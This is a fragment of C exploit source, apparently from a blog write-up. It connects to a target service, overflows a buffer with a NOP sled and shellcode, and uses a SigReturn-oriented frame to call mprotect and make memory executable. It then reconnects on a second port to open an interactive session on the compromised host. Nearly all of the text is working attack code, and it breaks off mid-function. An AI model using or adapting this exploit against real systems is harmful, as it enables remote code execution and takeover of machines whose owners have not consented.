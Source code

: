 int main(int argc, char **argv)
{
	int s;
	printf("[1] connecting to target ... \n");
	s = setsock(HOSTNAME, PORT);
	printf("[+] connected \n");
	printf("[2] overflowing ... \n");
	overflows(s);
	s = setsock(HOSTNAME, POWN);
	session(s);
	return 0;
}
 
void overflows(int s)
{
	struct payload_t payload;
	char output[0x400];
 
	memset(payload.nopshell, 0x90, SIZE);
	strncpy(payload.nopshell, shellcode, strlen(shellcode));
 
	payload.ret = DATA + 0x8; //precise address of nop sled
	payload.gadget = RAX_15_GADGET;
	payload.sigret = SYSCALL_GADGET;
 
	/* initializing the context structure */
	bzero(&payload.context, sizeof(struct ucontext));
 
	/* setting first arg of mprotect in rdi */
	payload.context.uc_mcontext.gregs[8] = MPROTECT_BASE;
 
	/* setting second arg of mprotect in rsi */
	payload.context.uc_mcontext.gregs[9] = PAGE_SIZE;
 
	/* setting third arg of mprotect in rdx */
	payload.context.uc_mcontext.gregs[12] = PROT_READ | PROT_WRITE | PROT_EXEC;
 
	/* setting mprotect syscall number in rax */
	payload.context.uc_mcontext.gregs[13] = MPROTECT_SYSCALL;
 
	/*
	 * jumping into nop sled after mprotect syscall.
	 * setting rsp value
	 */
	payload.context.uc_mcontext.gregs[15] = DATA;
 
	/* setting rip value (points to syscall address) */
	payload.context.uc_mcontext.gregs[16] = SYSCALL_GADGET;
 
	/* cs = 0x33 */
	payload.context.uc_mcontext.gregs[18] = FLAGS;
 
	write(s, &payload, sizeof(payload));
 
	read(s, output, 0x400);
}
 
int setsock(char *hostname, int port)
{
	int sock;
	struct hostent *hent;
	struct sockaddr_in sa;
	struct in_addr ia;
 
	hent = gethostbyname(hostname);
	if(hent) {
		memcpy(&ia.s_addr, hent->h_addr, 4);
	}
	else if((ia.s_addr = inet_addr(hostname)) == INADDR_ANY) {
		handle_error("incorrect address !!!\n");

[haka-blur]: {{site.baseurl}}/images/haka_blur.png